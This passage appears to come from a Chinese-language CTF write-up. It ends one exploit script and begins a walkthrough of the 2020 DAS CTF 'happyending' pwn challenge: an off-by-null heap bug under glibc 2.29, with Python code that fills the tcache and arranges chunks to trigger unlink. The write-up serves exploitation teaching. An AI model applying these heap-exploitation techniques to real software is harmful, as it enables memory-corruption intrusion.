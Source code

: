 ```


if __name__ == "__main__":
        flag = Attack()
        log.success('The flag is ' + re.search(r'flag`{`.+`}`',flag).group())
```



## 0x06 以 2020 DAS CTF MAY PWN happyending 为例

### <a class="reference-link" name="%E9%A2%98%E7%9B%AE%E4%BF%A1%E6%81%AF"></a>题目信息

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-06-12-062224.png)

保护全开，64位程序，Glibc-2.29

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90"></a>漏洞分析

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-06-12-062347.png)

创建新`Chunk`时，存在`Off-by-null`。

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>漏洞利用

这个题的利用甚至比上一题要简单，因为没有开启沙箱

#### <a class="reference-link" name="%E6%9E%84%E9%80%A0%E5%A0%86%E5%B8%83%E5%B1%80%EF%BC%8C%E8%A7%A6%E5%8F%91unlink"></a>构造堆布局，触发unlink

还是和之前一样，申请用于填满`Tcache`的`chunk`，然后申请探测`chunk`，根据探测结果申请填充`chunk`。

```
for i in range(7):
    creat(sh, 0x28 , 'chunk_' + str(i) + 'n')
for i in range(7):
    creat(sh, 0x18 , 'chunk_' + str(i) + 'n')
for i in range(7):
    creat(sh, 0x38 , 'chunk_' + str(i) + 'n')
creat(sh, 0x9B8 , 'pad' + 'n')
creat(sh, 0x18  , 'Test' + 'n')
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-06-12-063625.png)
